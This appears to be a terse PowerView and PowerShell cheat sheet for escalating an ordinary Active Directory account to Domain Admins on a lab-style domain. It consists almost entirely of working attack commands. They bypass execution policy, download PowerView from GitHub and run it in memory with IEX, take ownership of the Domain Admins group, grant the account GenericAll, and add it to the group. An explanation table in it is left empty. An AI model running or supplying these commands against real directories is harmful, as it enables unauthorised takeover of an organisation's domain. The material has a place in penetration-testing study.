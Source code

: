 ####Power view cheet
-----------------------------------------------------------------------
powershell -ep bypass
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"
net group "domain admins" goodboy /add /domain

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
Import-Module ActiveDirectory

# Now try the command again
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

--------------------------------------------------------------------------------------------------------
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))
$group.psbase.CommitChanges()

# 2. Add self to group
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView
(If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

with permission  - write all properties ✔ is  only enabled

if powerview  fails
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
with permissions - ✔ modify owner is only enabled

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
or downloade the script and run by import

powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose